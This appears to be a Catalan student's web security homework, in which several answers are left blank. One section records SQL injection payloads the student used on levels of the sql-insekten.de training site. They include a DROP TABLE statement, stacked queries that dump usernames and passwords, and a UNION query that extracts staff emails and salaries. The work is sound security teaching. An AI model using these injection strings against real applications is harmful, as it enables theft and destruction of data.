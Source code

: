 # Seguretat i vulnerabilitat

### 1. L’organització [OWASP Foundation](https://owasp.org/Top10/es/) va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web. 
#### Escull 3 vulnerabilitats d’aquesta llista i descriu-les. Escriu l’impacte que tenen a la seguretat i quins danys pot arribar a fer un atac en aquesta vulnerabilitat. Enumera diferents mesures i tècniques per poder evitar-les.
- TOP 1: Perdida de Control d'acces
   
És un error que permet als usuarios actuar fora dels permisos asignats, d'aquesta manera poden accedir a, modificar o esborrar informació o dades o executar una funció fora dels seus limits d'usuarí.  
Es pot donar, per exemple, per no seguir el principi de minim privilegi, en modificar l'url per tal d'accedir per forcar la navegació a pagines no permesses, permitint l'acces o modificació de la conta d'una persona mitjancant nomes l'identificador unic, poder accedir a APIs que no inclouen controls d'acces pels metodes relacionats amb afegir, modificar o eliminar informació...  
Els perills que implica són la fuga d'informació, la modificació o esborrat de dades, entre d'altres, ja que el perill depen sobretot de les interaccions que aconsegueixi dur a terme l'atacant.  

Metodos per evitar-ho: 
Denegar per defecte els accesos als recursos, exceptuan els que hagin de ser publics, afegir un pas extra de verificació a part de l'identificador
  
- TOP 4: Diseny insegur

- TOP :


### 2. Obre el següent enllaç [(sql inseckten)](https://www.sql-insekten.de/) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL. 
### 2.1. Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.
#### Nivell 1:
En l'espai per al nom d'usuari he posat: jane'; --  
La sentencia resultant ha sigut: SELECT username FROM users WHERE username ='jane'; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';  
He aconseguit accedir a l'usuari amb nom jane  

#### Nivell 2:
En l'espai per al nom d'usuari he posat: jane'; DROP TABLE users; --  
La sentencia resultant ha sigut: SELECT username FROM users WHERE username ='jane'; DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';  
S'ha fet DROP a la taula users  

#### Nivell 3:
En l'espai per al nom d'usuari he posat: '; SELECT username FROM users; --  
La sentencia resultant ha sigut: SELECT username FROM users WHERE username =''; SELECT username FROM users;--' AND password ='d41d8cd98f00b204e9800998ecf8427e';  
A logat com maxmiller  

#### Nivell 4:
En l'espai pel nom d'usuari he posat: '; SELECT username FROM users LIMIT 1; --
La sentencia resultant ha sigut: SELECT username FROM users WHERE username =''; SELECT username FROM users LIMIT 1; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';  
A logat com maxmiller  

#### Nivell 5:
En l'espai per la marca de les sabates:  '; SELECT username, password FROM users; --
La sentencia resultant ha sigut: SELECT product_id, brand, size, price FROM shoes WHERE brand=''; SELECT username, password FROM users; --';  
En la taula on hauria de mostrar les sabates m'ha mostrat els noms d'usuari i les respectives contrasenyes  

#### Nivell 6:
En l'espai pel nom d'usuari he posat: '; SELECT salary AS username FROM staff WHERE firstname = 'Greta Maria'; --  
La sentencia resultant ha sigut: SELECT username FROM users WHERE username =''; SELECT salary AS username FROM staff WHERE firstname = 'Greta Maria'; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';  
En la pantalla en que et dona la benvinguda per haber iniciat sessió mostra el salari on hi hauria d'haver el nom d'usuari  
  
#### Nivell 7:
En l'espai: ' UNION SELECT firstname AS product_id, email AS brand, salary AS size, employed_since AS price FROM staff WHERE name = '' OR name != '  
La sentencia resultant ha sigut: SELECT product_id, brand, size, price FROM shoes WHERE brand='' UNION SELECT firstname AS product_id, email AS brand, salary AS size, employed_since AS price FROM staff WHERE name = '' OR name != '';  
En la tula on mostraria l'informació dels productes mostra la informació dels empleats  
  
### 2.2. Enumera i raona diferents formes que pot evitar un atac per SQL injection en projectes fets amb Razor Pages i Entity Framework. 

### 3. L’empresa a la qual treballes desenvoluparà una aplicació web de venda d’obres d’art. Els artistes registren les seves obres amb fotografies, títol, descripció i preu.  Els clients poden comprar les obres i poden escriure ressenyes públiques dels artistes a qui han comprat. Tant clients com artistes han d’estar registrats. L’aplicació guarda nom, cognoms, adreça completa, dni i telèfon. En el cas dels artistes guarda les dades bancaries per fer els pagaments. Hi ha un tipus d’usuari Acount Manager que s’encarrega de verificar als nous artistes. Un cop aprovats poden pública i vendre les seves obres.

#### Ara es vol aplicar aplicant els principis  de seguretat per tal de garantir el servei i la integritat de les dades. T’han encarregat l'elaboració de part de les polítiques de seguretat. Elabora els següents apartats:
1. Definició del control d’accés: enumera els rols  i quin accés a dades tenen cada rol. 
2. Definició de la política de contrasenyes: normes de creació, d’ús i canvi de contrasenyes. Raona si són necessàries diferents polítiques segons el perfil d’usuari.
3. Avaluació de la informació: determina quin valor tenen les dades que treballa l'aplicació. Determina com tractar les dades més sensibles. Quines dades encriptaries?

### 4. En el control d’accessos, existeixen mètodes d’autenticació basats en tokens. Defineix l’autenticació basada en tokens. Quins tipus hi ha? Com funciona mitjançant la web? Cerca llibreries .Net que ens poden ajudar a implementar autenticació amb tokens.

### 5. Crea un projecte de consola amb un menú amb tres opcions:
- Registre: l’usuari ha d’introduir username i una password. De la combinació dels dos camps guarda en memòria directament l'encriptació. Utilitza l’encriptació de hash HA256. Mostra per pantalla el resultat.
- Verificació de dades: usuari ha de tornar a introduir les dades el programa mostra per pantalla si les dades són correctes.
- Encriptació i desencriptació amb RSA. L’usuari entrarà un text per consola. A continuació mostra el text encriptat i en la següent línia el text desencriptat. L’algoritme de RSA necessita una clau pública per encriptar i una clau privada per desencriptar. No cal guardar-les en memòria persistent.
#### Per realitzar aquest exercici utilitza la llibreria System.Security.Cryptography.

### 6. Indica les referències que has consultat
- OWASP Top 10 team (dia de mes de any). OWASP Top 10: 2021. OWASPTop 10:2021 Recuperat el 24/03/2025 d'[aquí](https://owasp.org/Top10/es/#bienvenido-al-owasp-top-10-2021)
- Adriel Araujo (). Vulnerabilidades: Qué es Broken Access Control y cómo solucionarlo. Hackmetrix blog Recuperat el 24/03/2025 d'[aquí](https://blog.hackmetrix.com/broken-access-control/)
